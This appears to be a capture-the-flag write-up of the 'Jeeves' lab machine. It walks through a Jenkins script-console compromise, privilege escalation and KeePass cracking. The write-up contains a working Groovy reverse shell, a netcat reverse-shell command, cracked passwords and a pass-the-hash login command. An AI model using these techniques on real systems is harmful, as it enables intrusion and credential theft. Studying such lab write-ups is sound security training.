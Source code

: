 # Jeeves

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Starting off with an Nmap scan, I found that ports 80,135,445 and 50000 were open.

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>



### Port 50000 Jetty 9.4.z-SNAPSHOT

Visiting the webpage, I was greeted by a Error 404 page.

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Next, I searched for subdomains using dirbuster with `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` wordlist. I found the `/askjeeves` subdirectory.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Heading to [http://10.10.10.63:50000/askjeeves/](http://10.10.10.63:50000/askjeeves/), it was a Jenkins management console. Going to `Manage Jenkins` --> Script console, I was able to upload the following groovy reverse shell.

```bash
String host="10.10.14.6";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And I obtained a user shell

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

Using the command `whoami /priv`, I was able to view that the `SeImpersonatePrivilege` is enabled which could allow for JuicyPotato attack.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Next, I transferred nc.exe over using SMB.

```bash
copy \\10.10.14.6\share\nc32.exe .
```

Afterwards, I ran the following command to obtain a root reverse shell

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

However, the JuicyPotato attack does not seem to work.

#### Futher Enumeration for Privilege Escalation

I found `CEH.kdbx` at `C:\Users\kohsuke\Documents`

After copying the file to the attacker machine, I used `keepass2john CEH.kdbx > keepass_hash` to extract a crackable hash from the Keepass Password Database.

Running `john keepass_hash --wordlist=/usr/share/wordlists/rockyou.txt` to crack the hash, I obtained the password as `moonshine1`

Using the password to view the password database, I found the following entries.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the following passwords

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
12345
S1TjAtJHKsugh9oC4VZl
pwndyouall!
F7WhTrSFDKB6sxHU1cUn
lCEUnYPjNfIuPZSzOySA
Password
```

The first password entry looks like a hash so I tried to using Pass-the-Hash method.

```bash
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' //10.10.10.63 cmd.exe
```

I managed to login as the `administrator`.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Heading to `c:\users\administrator\desktop` for the root flag, I instead found `hm.txt`

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

This could indicate that the flag is present as an Alternate Data Stream. Using `dir /r`, I was able to view the streams present in the directory.&#x20;

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Viewing the flag using `more < hm.txt:root.txt`, I obtained the root flag

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
